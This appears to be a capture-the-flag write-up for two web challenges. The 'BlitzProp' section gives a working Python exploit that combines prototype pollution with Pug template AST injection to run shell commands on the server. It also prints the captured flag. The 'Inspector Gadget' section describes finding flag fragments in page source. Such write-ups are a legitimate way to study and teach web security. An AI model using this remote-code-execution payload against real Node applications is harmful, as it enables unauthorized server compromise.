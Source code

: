 # Web

##

## BlitzProp

Solved By: bread
found similar chal, which points to [https://blog.p6.is/AST-Injection/#Pug](https://blog.p6.is/AST-Injection/#Pug)

first i ran

```bash
execSync(`ls -l /app > /app/static/out`)
```

which gave me the name of the flag
then i changed  the payload to  the following to get the flag.

```bash
import requests

TARGET_URL = 'http://138.68.151.248:30910'

# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = {
    "song.name":"The Goose went wild",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`cat /app/flaghJZCt > /app/static/out`)"
    }
    })

print(r.status_code)
print(r.text)
print(requests.get(TARGET_URL+'/static/out').text)
```

```
CHTB{p0llute_with_styl3}
```

##

## Inspector Gadget

Solved By: pwning

Once the docker has spawn, visit the URL `http://138.68.182.108:30222`.
You'll be greeted with a portion of the flag `CHTB{`

All flags were found via viewing the source code if you press F12. The first flag was found in the HTML commented `1nsp3ction_`.
After navigating around the page, we see another flag that is hidden in the main.js (`http://138.68.182.108:30222/static/js/main.js`)
which looks like to be the end of the flag `us3full_1nf0rm4tion}`
